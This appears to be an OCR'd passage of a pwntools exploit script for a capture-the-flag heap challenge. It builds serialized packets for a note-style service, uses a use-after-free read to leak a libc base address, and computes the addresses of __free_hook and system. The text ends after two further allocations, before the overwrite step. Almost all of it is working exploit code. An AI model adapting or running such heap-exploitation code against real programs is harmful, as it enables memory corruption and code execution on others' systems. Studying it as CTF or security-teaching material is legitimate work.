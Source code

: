 ```python
  std::uint64_t idx;
  std::uint64_t sz;
  std::string name;
  std::uint64_t nothing;
  NOP_STRUCTURE(Person, cmd, idx, sz, name, nothing);
};
"""

def pack_int(num: int):
    return b'\x82' + p32(num)


def pack_str(content: bytes):
    return b'\xBD' + len(content).to_bytes(1,'little') + content


def payload(cmd: int, idx: int, size: int = 0x20, content: bytes = b'A'*0x20) -> bytes:
    payload = b'\xB9\x05'
    payload += cmd.to_bytes(1, 'little')
    payload += b'\x82' + p32(idx) + b'\x82' + p32(size)
    payload += pack_str(content)
    payload += b'\x00'
    return payload


def send_packet(content: bytes):
    sh.sendlineafter(b'Packet length: ', str(len(content)).encode())
    sh.sendafter(b'Content: ', content)


def add(idx: int, size: int):
    send_packet(payload(0, idx, size))


def show(idx: int):
    send_packet(payload(1, idx))


def delete(idx: int):
    send_packet(payload(2, idx))


def edit(idx: int, content: bytes):
    send_packet(payload(3, idx, 0, content))



add(0, 0x580)  # 0
add(1, 0x10)  # 1
# gdb.attach(sh)
# pause()
delete(0)
show(0)


libc_base = u64(sh.recv(6).ljust(8,b'\x00')) - 0x3ebca0
print("libc_base >>> ", hex(libc_base))

free_hook_addr = libc_base + libc.sym['__free_hook']
system_addr = libc_base + libc.sym['system']

add(2, 0x80)  # 2
add(3, 0x80)  # 3
```